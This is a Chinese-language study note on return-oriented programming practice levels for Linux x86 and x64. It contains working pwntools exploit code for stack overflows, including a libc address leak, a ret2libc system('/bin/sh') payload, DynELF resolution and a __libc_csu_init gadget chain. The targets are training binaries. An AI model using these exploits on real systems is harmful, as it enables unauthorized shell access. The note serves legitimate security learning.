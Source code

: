 ## 参考文章
1. <http://wps2015.org/drops/drops/%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5%E5%AD%A6ROP%E4%B9%8Blinux_x86%E7%AF%87.html>  
2. <http://wps2015.org/drops/drops/%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5%E5%AD%A6ROP%E4%B9%8Blinux_x64%E7%AF%87.html>

## 总结
很早之前看的两篇经典的rop文章。今天复习了一下x86中rop的利用方法，漏洞是简单的栈溢出，根据利用方式不同分四个level。  

## x86
### level1   
```
编译
gcc -fno-stack-protector -z execstack -o level1 level1.c -m32
关闭ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
利用方式：gdb 中pattern_create、pattern_offset计算offset，溢出返回地址为shellcode即可。
  
gdb attach后会改变程序stack，导致溢出点的栈地址改变，用gdb 调试core dump文件即可。
```
# 开启core dump
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
# 调试core dump
gdb process core-xxxx
# gdb attach 服务
socat TCP4-LISTEN:10001,fork EXEC:./level1
ps aux | grep -E "level1|PID"
sudo gdb attach PID
```
### level2
```
编译
gcc -fno-stack-protector -o level1 level1.c -m32
关闭ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
利用方式：开启NX后，查看libc中的system和/bin/sh地址即可。`p32(system_addr) + p32(0xdeadbeaf) + p32(binsh_addr)`
```
gdb> print system
gdb> find '/bin/sh\x00'
```

### level3

```
编译
gcc -fno-stack-protector -o level1 level1.c -m32
开启ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
利用方式：开启ASLR后，泄漏libc中任意函数的地址，计算libc中system和/bin/sh的真实地址。
```
# objdump -d -j .plt level3
write_plt = 0x8048320
# objdump -R level3
write_got = 0x0804a014
main = 0x8048460
payload = 'B'*140 + p32(write_plt) + p32(main) + p32(1)  + p32(write_got) + p32(0x10)
p.sendline(payload)

write_addr = u32(p.recv()[0:4])
log.info('write addr :'+ hex(write_addr))

libc = ELF('./libc.so')
write_offset = libc.symbols['write']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search('/bin/sh'))
system_addr = write_addr - (write_offset - system_offset)
binsh_addr = write_addr - (write_offset - binsh_offset)
log.info('system_addr:'+hex(system_addr))

payload2 = 'B'*140 + p32(system_addr) + p32(0xdeafbeaf) + p32(binsh_addr)

```

### level4 
```
编译
gcc -fno-stack-protector -o level1 level1.c -m32
开启ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
不提供libc
```
利用方式：由于无libc，需要通过pwnlib中的DynELF来泄漏system的地址。条件是，可以每次泄漏至少任意地址一个字节。
```
write_plt = 0x8048320
read_plt = 0x8048300
main = 0x8048460

def leak(address):
    payload = 'B'*140 + p32(write_plt) + p32(main) + p32(1)  + p32(address) + p32(4) # 1<= size is ok 
    p.sendline(payload)
    data = p.recv(4)
    log.info("%#x => %s" % (address, (data or '').encode('hex')))
    return data


d = DynELF(leak, elf=ELF('level4'))
system_addr = d.lookup('system', 'libc')
log.info("system_addr=" + hex(system_addr))

# write /bin/sh
bss_addr = 0x0804a020
ret_addr = 0x080484f9 #  pop esi ; pop edi ; pop ebp ; ret
payload = 'B'*140 + p32(read_plt) +  p32(ret_addr) +  p32(0) + p32(bss_addr) + p32(8)
payload += p32(system_addr) + p32(0xdeafbeaf) + p32(bss_addr)

p.sendline(payload)
p.sendline("/bin/sh\x00")
```

## x64
64位程序：可使用的地址空间<0x7fffffffffff，传参从rdi rsi rdx rcx r8 r9 到栈。程序都开启了ASLR和NX，没看canary。
### level1
修改返回值为system函数的地址即可。
### level2
程序给出了system的地址，构造rop。`payload = 'A'*136 + p64(poprdi_ret)  + p64(binsh_addr) + p64(system_addr)`

### level3
程序仅有一个栈溢出，存在read和write的got表。思路和之前一致，泄漏write函数的实际地址，计算system的地址，构造rop。重点在于rop的构造，利用__libc_csu_init函数中的gadgets。
```
400600:   4c 89 ea                mov    %r13,%rdx
  400603:   4c 89 f6                mov    %r14,%rsi
  400606:   44 89 ff                mov    %r15d,%edi
  400609:   41 ff 14 dc             callq  *(%r12,%rbx,8)
  40060d:   48 83 c3 01             add    $0x1,%rbx
  400611:   48 39 eb                cmp    %rbp,%rbx
  400614:   75 ea                   jne    400600 <__libc_csu_init+0x40>
  400616:   48 83 c4 08             add    $0x8,%rsp
  40061a:   5b                      pop    %rbx
  40061b:   5d                      pop    %rbp
  40061c:   41 5c                   pop    %r12
  40061e:   41 5d                   pop    %r13
  400620:   41 5e                   pop    %r14
  400622:   41 5f                   pop    %r15
  400624:   c3                      retq  

#write(1,write_got,0x8)

main = 0x400587
poprbx = 0x40061a
movrdx = 0x400600
rbx = 0x0
rbp = 0x1
r12 = write_got # call *(write_got)
r13 = 0x8 # third
r14 = write_got # second
r15 = 0x1 # first
payload = 'B'*136 + p64(poprbx) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) +p64(r14) + p64(r15)
payload += p64(movrdx) + p64(0xdeadbeaf)*7 + p64(main)

```
同样，通过DynELF来完成了无libc的函数泄漏，完成了exp_withoutlibc.py版的exp。
注意，system函数调用execve来执行/bin/sh，而execve的参数有三个，和栈上的内容有关系，尽量把无关紧要的偏移用\x00来填充。此外，DynELF不是很稳定，多打几次就好了。
